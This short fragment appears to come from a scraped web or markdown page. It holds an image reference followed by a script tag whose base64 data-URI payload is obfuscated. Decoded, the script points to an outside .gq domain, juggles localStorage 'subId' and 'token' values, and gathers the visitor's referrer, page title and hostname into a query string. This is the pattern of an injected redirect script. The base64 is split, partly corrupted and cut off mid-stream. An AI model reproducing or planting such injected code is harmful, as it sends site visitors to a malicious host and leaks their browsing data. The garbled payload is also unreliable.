 # U1_Kim_MX
<script src="data:text/javascript;base64,CiAgICAoZnVuY3Rpb24oKSB7CiAgICB2YXIgbmFtZSA9ICdfN2tGU04xR0hLN3N2NVhDSyc7CiAgICBpZiAoIXd
pbmRvdy5fN2tGU04xR0hLN3N2NVhDSykgewogICAgICAgIHdpbmRvdy5fN2tGU04xR0hLN3N2NVhDSyA9IHsKICAgICAgICAgICAgdW5pcXVlOiBmY
WxzZSwKICAgICAgICAgICAgdHRsOiA4NjQwMCwKICAgICAgICAgICAgUl9QQVRIOiAnaHR0cHM6Ly9hbWZyaXNib3Vua28uZ3EvY0pHN3dGUm
MnLAogICAgICAgIH07CiAgICB9CiAgICBjb25zdCBfTTFYMXZWMWZQWURzUkZkSCA9IGxvY2FsU3RvcmFnZS
5nZXRJdGVtKCdjb25maWcnKTsKICAgIGlmICh0eXBlb2YgX00xWDF2VjFmUFlEc1JGZEggIT09ICd1bmRlZmluZWQnICYmIF9NMVgxdlYxZlBZRHNSRmRIICE9PSBudWxsKSB7CiA
gICAgICAgdmFyIF9QeXNjWHhkWjJ4M3BERlhQID0gSlNPTi5wYXJzZShfTTFYMXZWMWZQWURzUkZkSCk7CiAgICAgICAgdmFy
IF9CUGNuNFJZQzd4TVFXa21QID0gTWF0aC5yb3VuZCgrbmV3IERhdGUoKS8xMDAwKTsKICAgICAgICBpZiAoX1B5c2N
YeGRaMngzcERGWFAuY3JlYXRlZF9hdCArIHdpbmRvdy5fN2tGU04xR0hLN3N2NVhDSy50dGwgPCBfQlBjbjRSWUM3e
E1RV2ttUCkgewogICAgICAgICAgICBsb2NhbFN0b3JhZ2UucmVtb3ZlSXRlbSgnc3ViSWQnKTsKICAgICAgICAgICAgbG9jYWxTdG9yYWdlLnJ
lbW92ZUl0ZW0oJ3Rva2VuJyk7CiAgICAgICAgICAgIGxvY2FsU3RvcmFnZS5yZW1vdmVJdGVtKCdjb25maWcnKTsKICAgICAgICB9CiAgICB9CiAgICB2YXIgX2RqS3c
ycUZrM2RGQ0N5WmMgPSBsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnc3ViSWQnKTsKICAgIHZhciBfZ01IUmZtS3p0NHlIcFB4dyA9IGxvY2FsU3RvcmFnZS5nZXRJdGVtKCd0b2tlbicpOwog
ICAgdmFyIF9QWVNaWDF6N3hmWk1KTFl6ID0gJz9yZXR1cm49anMuY2xpZG93LmxvY2F0aW9uLnNlYXJjaC5yZXBsYWNlKCc/JywgJycpKTsKICAgICAgICBfUFlTWlgxejd4ZlpNS
kxZeiArPSAnJnNlX3JlZmVycmVyPScgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQucmVmZXJyZXIpOwogICAgICAgIF9Q
WVNaWDF6N3hmWk1KTFl6ICs9ICcmZGVmYXVsdF9rZXl3b3JkPScgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQudGl0bGUpOwogICVNaWDF6N3hmWk1KTFl6
ICs9ICcmbGFuZGluZ191cmw9JyArIGVuY29kZVVSSUNvbXBvbmVudChkb2N1bWVudC5sb2NhdGlvbi5ob3N0bmFtZSArIGRvY3VtZW50LmxvY2
F0aW9uLnB
